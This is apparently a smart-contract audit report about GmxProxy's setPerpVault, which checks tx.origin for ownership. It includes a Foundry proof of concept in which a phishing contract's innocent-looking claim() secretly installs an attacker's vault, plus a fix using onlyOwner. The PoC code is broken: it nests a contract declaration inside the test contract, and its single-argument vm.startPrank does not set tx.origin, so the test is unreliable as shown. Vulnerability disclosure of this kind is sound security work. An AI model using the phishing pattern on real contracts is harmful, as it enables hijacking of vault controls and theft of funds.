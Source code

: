 
# Gamma - Liquidity Management


## Summary

The `setPerpVault` function in GmxProxy.sol  uses `tx.origin` for authorization instead of `msg.sender`. This critical vulnerability allows malicious contracts to bypass ownership checks and potentially gain control over vault interactions with GMX.

## Vulnerability Details

```solidity
function setPerpVault(address _perpVault, address market) external {
    require(tx.origin == owner(), "not owner"); // @audit Uses tx.origin
    require(_perpVault != address(0), "zero address");
    require(perpVault == address(0), "already set");
    perpVault = _perpVault;
    gExchangeRouter.setSavedCallbackContract(market, address(this));
}
```

The function relies on `tx.origin` for authorization, which represents the original external account that initiated the transaction, rather than the immediate caller (`msg.sender`).

## Impact

1. Malicious contracts can trick vault owner into interacting with them
2. Potential redirection of all GMX interactions
3. Complete compromise of vault controls
4. Risk of fund loss through manipulated callbacks

## Proof of Concept

The Proof of Concept demonstrates how an attacker can exploit the tx.origin authentication in GmxProxy to hijack the vault system through a phishing contract:

1. Setup:
   * Deploy GmxProxy with legitimate owner
   * Attacker creates a malicious vault contract
   * Attacker deploys a phishing contract appearing legitimate to owners

2. Attack Flow:
   * The phishing contract includes legitimate-looking functions (e.g., 'claim')
   * When owner interacts with the phishing contract
   * The contract secretly calls setPerpVault during execution
   * Since tx.origin matches owner, the call succeeds
   * Malicious vault becomes the authorized vault

3. Impact:
   * Attacker gains control of vault interactions
   * All future GMX operations can be intercepted
   * System security is compromised despite owner's careful setup

The test provides concrete proof that using tx.origin for authentication creates a critical security weakness, allowing attackers to bypass intended access controls through indirect contract interactions.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "forge-std/Test.sol";
import "../../contracts/GmxProxy.sol";

contract TxOriginAttackTest is Test {
    GmxProxy proxy;
    address owner;
    address attacker;
    
    function setUp() public {
        owner = address(0x1);
        attacker = address(0x2);
        
        vm.startPrank(owner);
        proxy = new GmxProxy();
        proxy.initialize(
            address(0x100), // orderHandler
            address(0x101), // liquidationHandler
            address(0x102), // adlHandler
            address(0x103), // gExchangeRouter
            address(0x104), // gmxRouter
            address(0x105), // dataStore
            address(0x106), // orderVault
            address(0x107), // gmxReader
            address(0x108)  // referralStorage
        );
        vm.stopPrank();
    }
    
    // Malicious contract that owner might interact with
    contract AttackerContract {
        GmxProxy public targetProxy;
        address public attackerControlledVault;
        
        constructor(address _proxy, address _maliciousVault) {
            targetProxy = GmxProxy(_proxy);
            attackerControlledVault = _maliciousVault;
        }
        
        function attack() external {
            // When owner interacts with this contract
            targetProxy.setPerpVault(
                attackerControlledVault,
                address(0x1234) // market
            );
        }
        
        // Legitimate-looking function that owner might call
        function claim() external {
            // Hidden malicious call
            attack();
        }
    }
    
    function testTxOriginAttack() public {
        // Deploy attacker's malicious vault
        address maliciousVault = address(new MaliciousVault());
        
        // Deploy malicious contract
        AttackerContract attackerContract = new AttackerContract(
            address(proxy),
            maliciousVault
        );
        
        // Owner interacts with attacker contract thinking it's legitimate
        vm.startPrank(owner);
        attackerContract.claim();
        
        // Verify attack success
        assertEq(proxy.perpVault(), maliciousVault);
        vm.stopPrank();
    }
}

contract MaliciousVault {
    // Malicious vault implementation
}
```

The PoC demonstrates how a malicious contract can trick the vault owner into unknowingly setting a malicious vault address, potentially compromising the entire system's security.

## Tools Used

* Manual code review
* Foundry testing framework
* Static analysis (detecting tx.origin usage)

## Recommended Mitigation

Replace tx.origin with msg.sender and use OpenZeppelin's onlyOwner modifier:

```solidity
function setPerpVault(address _perpVault, address market) external onlyOwner {
    require(_perpVault != address(0), "zero address");
    require(perpVault == address(0), "already set");
    perpVault = _perpVault;
    gExchangeRouter.setSavedCallbackContract(market, address(this));
}
```
